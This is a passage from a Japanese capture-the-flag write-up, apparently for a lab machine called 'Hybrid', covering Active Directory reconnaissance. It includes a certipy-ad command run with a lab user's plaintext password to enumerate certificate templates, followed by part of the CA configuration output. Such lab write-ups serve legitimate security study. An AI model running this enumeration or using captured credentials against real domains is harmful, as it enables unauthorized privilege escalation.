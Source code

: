 ```sh
WARNING: Could not resolve: mail01: The resolution lifetime expired after 3.105 seconds: Server Do53:10.10.206.37@53 answered The DNS operation timed out.
INFO: Done in 00M 53S

```

Domain Admin権限を持つユーザー
![](https://i.imgur.com/BWGoItE.png)
EDWARD.MILLER@HYBRID.VLが、Domain Adminに入ってるのは覚えておく必要あるか
Kerberoastingできるユーザーがいない、AS-REP Roastingできるユーザーもいない
特にpeter.turnerから簡単に横展開できそうなユーザーもいない

# Privilege Escalation

## CertPy
まあ、なんかpeterの認証情報あるし、試してみるかみたいな感じ
```sh
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid/DC]
└─$ certipy-ad find -u 'peter.turner@hybrid.vl' -p 'b0cwR+G4Dzl_rw' -target hybrid.vl -dc-ip 10.10.206.37 -ns 10.10.206.37 -enabled -vulnerable -stdout
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 14 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'hybrid-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'hybrid-DC01-CA'
[*] Checking web enrollment for CA 'hybrid-DC01-CA' @ 'dc01.hybrid.vl'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : hybrid-DC01-CA
    DNS Name                            : dc01.hybrid.vl
    Certificate Subject                 : CN=hybrid-DC01-CA, DC=hybrid, DC=vl
    Certificate Serial Number           : 45CAA64FA095FDAB4FD15E3DF8A70977
    Certificate Validity Start          : 2023-06-17 14:04:39+00:00
    Certificate Validity End            : 2125-10-16 01:34:51+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : HYBRID.VL\Administrators
      Access Rights
        ManageCa                        : HYBRID.VL\Administrators
                                          HYBRID.VL\Domain Admins
```